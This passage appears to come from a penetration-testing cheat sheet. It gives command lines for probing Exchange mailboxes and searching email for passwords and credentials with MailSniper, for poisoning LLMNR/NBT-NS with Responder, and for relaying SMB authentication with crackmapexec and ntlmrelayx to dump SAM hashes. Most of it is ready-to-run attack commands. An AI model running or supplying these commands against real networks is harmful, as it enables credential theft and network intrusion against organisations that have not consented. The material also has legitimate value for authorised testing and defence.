 #### Check access to mailboxes with current user
- https://github.com/dafthack/MailSniper
```
Invoke-OpenInboxFinder -EmailList emails.txt -ExchHostname us-exchange -Verbose
```

#### Read e-mails
- https://github.com/dafthack/MailSniper
- The below command looks for terms like pass, creds, credentials from top 100 emails
```
Invoke-SelfSearch -Mailbox <EMAIL> -ExchHostname <EXCHANGE SERVER NAME> -OutputCsv .\mail.csv
```

## Relaying attacks
- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/

#### Check if LLMNR and NBT-NS is used
- Link Local Multicast Name Resolution (LLMNR) and NetBIOS Name Resolution (NBT-NS).
- Use ```-A``` for analyze mode.
```
Responder -I eth0 -A
```

### SMB relaying
#### Check for SMB hosts without SMB signing
```
crackmapexec smb <IP RANGE> --gen-relay-list smb_hosts_nosigning.txt
```

#### Poison Requests
```
Responder -I eth0
```

#### Relay requests SMB and dump SAM
- we have to modify the Responder.conf file and disable the HTTP and SMB servers (as NTLM relay will be our SMB and HTTP server).
- the ```-d``` flag has now been changed from “Enable answers for NETBIOS domain suffix queries. Answering to domain suffixes will likely break stuff on the network. Default: False” to “Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response. Default: False”. It should also be noted that ```-d``` as it is now CAN have an impact on your client’s network, as you are effectively poisoning the WPAD file over DHCP, which does not always revert back immediately once you stop the attack. It will likely require a reboot.
```
Responder -I eth0
ntlmrelayx.py -tf smb_hosts_nosigning.txt 
```

#### Relay requests SMB and keep SMB sessions open
- Use the ```socks``` option to be able to use the ```socks``` command to get a nice overview of the relayed attempts. It will also keep the SMB connection open indefinitely. 
